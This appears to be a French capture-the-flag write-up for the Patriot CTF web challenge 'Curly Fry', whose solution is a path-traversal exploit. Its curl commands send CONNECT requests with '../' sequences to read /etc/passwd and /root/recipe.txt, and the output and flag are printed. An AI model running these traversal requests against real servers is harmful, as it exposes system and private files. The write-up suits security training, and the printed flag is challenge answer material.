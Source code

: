 # Patriot CTF

## Web

### Curly Fry

**Enoncé :** Qui a besoin de Flask quand vous avez Golang -- la nouvelle méta pour les applications web.

Jetez un coup d'oeil à ce site web super élégant et fonctionnel.

Le challenge nous donne l'URL suivante : `chal2.pctf.competitivecyber.club:49515`

***

A la connexion sur cet URL, on tombe sur la page index.hmtl avec le code source suivant :

```html
<html>
  <head>
    <title>Curly Fry</title>
  </head>
  <body>
    <h2>I will release my secret curly fry recipe when I am ready. For now it is safely held in my /root directory</h2>
  </body>
</html>
```

Il est possible d'accéder a des ressources non-autorisée grâce à une requête CONNECT.

J'essaye dans un premier temps d'accéder au fichier **/etc/passwd** via curl : `curl --path-as-is -X CONNECT chal2.pctf.competitivecyber.club:49515/../../..
/etc/passwd`

Via la requête, j'accède bien au fichier souhaité :

``` 
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
```



```
curl --path-as-is -X CONNECT chal2.pctf.competitivecyber.club:49515/../../../root/recipe.txt
Ingredients: for 2 servings
- 2 curly potatoes
- 2 tablespoons of old bay seasoning
- ketchup and malt vinegar

Preparation
1. Preheat oven to 420°F
2. Slice the potatoes with a knife as they are already curly to begin with
3. Put your seasoning on em
4. Just throw them into the oven
5. Bake until they look good, idk.
6. Put ketchup on a plate and stir in a little malt vinegar
7. Enjoy!
8. Get flag: PCTF{tru5t_m3_im_4_ch3f}
```


![image](https://user-images.githubusercontent.com/49941629/166076085-f02a43e6-9399-4db3-8d96-3adb3dd3e5fc.png)


![image](https://user-images.githubusercontent.com/49941629/166076128-1acaa89b-ad4e-4c55-900e-5062165d01f0.png)

![image](https://user-images.githubusercontent.com/49941629/166076146-30bb3dff-12a2-4c41-b867-73f19eb2b62b.png)
